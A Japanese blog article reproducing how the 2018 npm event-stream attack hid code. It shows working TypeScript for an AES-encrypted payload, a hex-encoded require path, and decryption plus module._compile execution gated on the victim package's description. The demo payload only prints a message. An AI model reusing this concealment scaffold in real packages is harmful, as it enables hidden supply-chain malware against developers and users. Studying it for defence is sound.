 # 概要

本記事は直近で起きた npm パッケージ event-stream への攻撃のうち、任意のコードを忍ばせる手法の追試です。

⚠️ 今回は攻撃者がパッケージのメンテナであったために発生したことであり、この記事を読んで誰でも攻撃できるようになるわけではありません。
⚠️ 念のためですが、悪用しないようにお願いします。

# 参考

[2018/11/27 に判明した npm パッケージ乗っ取りについて](https://qiita.com/azs/items/b15bc456bee3a7892950)

# コード

https://github.com/kik4/npm-evil-code-injection

# ポイント

今回の攻撃では minify したコードにのみ攻撃コードが挿入されていました。ただ minify しただけでなく、一見してそれとわからないようにコードが隠蔽されていました。この記事で確かめる隠蔽手法は次の３つです。

1. 攻撃コードの暗号化
2. 攻撃実行コードの require パスの隠蔽
3. package.json の description を見て攻撃対象を限定

# 攻撃手順

今回題材とするコードは次の通りです。

```ts
// 正常なコード
export default () => console.log("This is good code.");
```

```ts
// 攻撃コード
console.log("This is evil code.");
```

上記の正常なコードに攻撃コードを忍ばせます。そしてこのパッケージを実行する npm パッケージの description が`run evil code`の時だけ攻撃コードが実行されるようにしましょう。

## 1. 攻撃コードの暗号化 & 3. description で攻撃対象を限定

まず攻撃コードを AES 暗号化します。暗号化は node コマンドで REPL を起動させてちゃっちゃとやってしまいます。
暗号化する文字列は攻撃コードである`console.log("This is evil code.")`ですね。
パスワードは description で起動させる`run evil code`です。複合化時に実行しているパッケージのdescriptionを拾って与えることで、攻撃対象を限定します。

```js
var cipher = require("crypto").createCipher("aes-256-cbc", "run evil code");
var encoded =
  cipher.update('console.log("This is evil code.")', "utf8", "hex") +
  cipher.final("hex");
encoded;
```

結果は`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`です。

## 2. 攻撃実行コードの require パスの隠蔽

### index.ts

正常なコードを書いたファイルを index.ts。攻撃コードを忍ばせ、攻撃を実行するコードを書いたファイルを evil.ts とします。
まずは index.ts から evil.ts を require します。evil() の実行が攻撃コードの実行になります。

```ts
export default () => {
  const evil = require("./evil.ts").default;
  evil();
  console.log("This is good code.");
};
```

今回はこの require の中の文字列が hex エンコードされていました。`./evil.ts`をエンコードすると`2E2F6576696C`になります。
これをデコード処理を入れて書き換えます。

```ts
export default () => {
  const evil = require(Buffer.from("2E2F6576696C", "hex").toString()).default;
  evil();
  console.log("This is good code.");
};
```

一見して何のファイルが読み込まれているかわからなくなりましたね。

### evil.ts

次に evil.ts の用意です。この中で暗号化したコードの複合と実行を行います。
暗号化された攻撃コードは`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`。
これを実行パッケージの package.json の description を格納している`process.env.npm_package_description`で復号し、それを実行してやります。

```ts
import * as crypto from "crypto";

// _compile()の定義が無かったので追加
declare global {
  interface NodeModule {
    _compile(arg1: string, arg2: string): any;
  }
}

export default () => {
  // 攻撃コード
  const data =
    "cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f";
  // 復号器
  const decipher = crypto.createDecipher(
    "aes256",
    process.env.npm_package_description || ""
  );

  // パスワードが違うとこけるのでキャッチ
  try {
    // 復号
    const payload =
      decipher.update(data, "hex", "utf8") + decipher.final("utf8");
    // 実行
    module._compile(payload, "");
  } catch {}
};
```

以上で攻撃コードの仕込みは完了です。

# 攻撃を受けてみる

攻撃される側のパッケージを用意します。攻撃を仕込んだパッケージは公開してもしょうがないので今回はローカルインポートにします。
package.json では攻撃コードが実行されるように description を`run evil code`にしておきます。

```json
{
  // 略
  "description": "run evil code",
  // 略
  "dependencies": {
    "library": "../library" // ローカルインポート
    // 略
  }
}
```

実行コードはこんな感じ。

```ts
import library from "library";

console.log("Hello world!!");
library();
```

これを実行すると出力は以下の通りです。

```
// 期待する結果
Hello world!!
This is good code.

// 実際の結果
Hello world!!
This is evil code.
This is good code.
```

無事に攻撃コードが実行されました！
description を書き換えると`This is evil code.`が出てきません。ちゃんと攻撃対象を絞れました。
